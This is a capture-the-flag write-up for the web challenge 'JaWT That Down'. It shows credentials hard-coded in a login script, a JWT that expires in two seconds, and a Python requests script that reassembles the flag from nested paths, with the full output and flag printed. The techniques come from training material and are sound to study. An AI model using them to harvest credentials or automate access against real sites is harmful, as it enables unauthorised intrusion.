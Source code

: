 # JaWT That Down

## Challenge Description
> The new ultra maximum security plugin I installed on my website is so good that even I can’t log in. Hackers don’t stand a chance.

## Solution
I saw that there was a login dashboard and that it required a username and a password.
So I tried to insert a ```'``` and a couple others to see if it breaks something - it did not.

After realizing it wasn't a SQLi, I tried to look at the script that is being loaded on the login screen /js/login.js.
It was minified and most of it wasn't important, I searched for the keyword "username" to see where the credentials are being passed,
and I saw that the developer left the credentials in the script:

![image](https://user-images.githubusercontent.com/54234250/167389421-0869bd99-0435-499f-8f3d-7aab0d889eaf.png)

After I logged in, a new tab showed up called "Flag" which leads to ```https://jawt.sdc.tf/s```, I pressed it and got ```Invalid Token: Access Denied```,
my initial thought was to look at the cookie because it said ```Invalid Token``` which maybe referred to the token in the cookie:

![image](https://user-images.githubusercontent.com/54234250/167390289-2e296c73-1ce9-4bd1-b2f0-52fabd25f2f8.png)

It is base64 encoded, and I recognize that is it a ```JWT``` token - fits to the title of the challenge.

![image](https://user-images.githubusercontent.com/54234250/167390689-969da869-86d2-4e4e-b55a-36e603c5a58e.png)

We see that the token expires after 2 seconds because of the ```exp``` field.
So I figured that we need a script to access that directory in time, so I wrote this:

```python
import requests

sess = requests.Session()
url = "https://jawt.sdc.tf/"

# find username and password from /js/login.js
def login():
	sess.post(url + "login", data={"username":"AzureDiamond", "password":"hunter2"})
	
login()
resp = sess.get(url + "s")
print(resp.text)
```
The output was ```d```, and after a moment of thinking what could that mean, I came up with an idea that maybe we need to iterate through the directories and assemble the flag that way.
I tried to access the next directory ```https://jawt.sdc.tf/d```, but that just gave ```Not Found```, so after another moment of thinking, I tried different cominations until I found something that worked - ```https://jawt.sdc.tf/s/d```, and because the token expired after two seconds, my script couldn't assemble the full flag in time, so I just logged in again when I got the ```Access Denied``` message.

here is the full script:
```python
import requests

sess = requests.Session()
url = "https://jawt.sdc.tf/"

# find username and password from /js/login.js
def login():
	sess.post(url + "login", data={"username":"AzureDiamond", "password":"hunter2"})

def get_next_dir():
	resp = sess.get(url + flag)
	return resp.text


next_dir = "s"
flag = next_dir
while next_dir != '}':
	next_dir = get_next_dir()
	if "Access" in next_dir:
		login()
		next_dir = get_next_dir()
		
	flag += "/" + next_dir
	print(flag.replace("/", ""))
```
Output:
```
sd
sdc
sdct
sdctf
sdctf{
sdctf{T
sdctf{Th
sdctf{Th3
sdctf{Th3_
sdctf{Th3_m
sdctf{Th3_m0
sdctf{Th3_m0r
sdctf{Th3_m0r3
sdctf{Th3_m0r3_
sdctf{Th3_m0r3_t
sdctf{Th3_m0r3_t0
sdctf{Th3_m0r3_t0k
sdctf{Th3_m0r3_t0k3
sdctf{Th3_m0r3_t0k3n
sdctf{Th3_m0r3_t0k3ns
sdctf{Th3_m0r3_t0k3ns_
sdctf{Th3_m0r3_t0k3ns_t
sdctf{Th3_m0r3_t0k3ns_th
sdctf{Th3_m0r3_t0k3ns_the
sdctf{Th3_m0r3_t0k3ns_the_
sdctf{Th3_m0r3_t0k3ns_the_l
sdctf{Th3_m0r3_t0k3ns_the_le
sdctf{Th3_m0r3_t0k3ns_the_le5
sdctf{Th3_m0r3_t0k3ns_the_le55
sdctf{Th3_m0r3_t0k3ns_the_le55_
sdctf{Th3_m0r3_t0k3ns_the_le55_p
sdctf{Th3_m0r3_t0k3ns_the_le55_pr
sdctf{Th3_m0r3_t0k3ns_the_le55_pr0
sdctf{Th3_m0r3_t0k3ns_the_le55_pr0b
sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl
sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl3
sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl3m
sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl3ms
sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl3ms_
sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl3ms_a
sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl3ms_ad
sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl3ms_adf
sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl3ms_adf3
sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl3ms_adf3d
sdctf{Th3_m0r3_t0k3ns_the_le55_pr0bl3ms_adf3d}
```
